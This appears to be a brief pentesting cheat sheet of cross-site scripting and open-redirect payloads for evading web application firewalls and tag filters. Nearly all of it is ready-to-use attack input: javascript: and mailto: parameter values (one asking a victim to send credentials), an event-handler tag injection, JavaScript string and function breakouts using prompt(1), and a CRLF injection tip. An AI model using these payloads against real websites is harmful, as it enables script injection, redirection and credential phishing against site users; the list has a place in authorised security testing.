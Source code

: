 WAF Got You Down or Certain Tags Stripped?
==============

/?SomeParam=https://TheDomainYouAreOne&TheirParam=javascript://prompt(1)

/?SomeParam=https://TheDomainYouAreOne&TheirParam=mailto://SomeoneEvil@SOMEDOMAIN?Subject=How about that!%26Body=Please send me credentials

/?SomeParam=https://TheDomainYouAreOne&TheirParam=https://www.google.com

Did you break out of a tag for and script, iframe, img, a etc are all blocked?
==============

Did they block onerror onload onclick? Try something like this:

&lt;XXXXXXX ondblclick=prompt(1)&gt;Some Text, Don't even care to end the tag either.

Don't forget the injection might not be a form tag but in the javascript.
==============
";prompt(1);//

';prompt(1);//

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.

"};prompt(1);//

Don't forget %0D%0A if you need a new line
